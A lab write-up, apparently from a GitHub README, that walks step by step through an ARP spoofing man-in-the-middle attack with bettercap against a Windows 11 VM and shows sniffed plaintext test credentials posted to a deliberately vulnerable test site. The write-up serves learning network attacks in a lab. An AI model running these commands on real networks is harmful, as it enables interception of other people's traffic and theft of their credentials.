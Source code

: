 Scan network to connect targets
```sh
net.probe on
```

Show connections
```sh
net.show
```

Start full duplex to capture both the router and the victim PC
```sh
set arp.spoof.fullduplex true
```
- I didn't need this but keep it in mind if something is not working 

Start an ARP spoof attack from bettercap using the information gathered
```sh
set arp.spoof.target <target-ip>
```
- You can see the target ip with the `net.show` command

Enable spoof
```sh
arp.spoof on
```
- Now we can test this by using the browser again on the target VM
- Shows various information like IP, MAC, URL visited, and the target computer name

Start sniffing
```sh
net.sniff on
```

Results
```python
10.0.3.0/24 > 10.0.3.4  » [08:24:53] [net.sniff.http.request] http win11.local. POST testphp.vulnweb.com/userinfo.php

POST /userinfo.php HTTP/1.1
Host: testphp.vulnweb.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0                                                                                         
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7                                                                                   
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Referer: http://testphp.vulnweb.com/login.php
Accept-Encoding: gzip, deflate
Origin: http://testphp.vulnweb.com

uname=hiimtestingarpspoofing&pass=hiimtestingarpspoofing
```
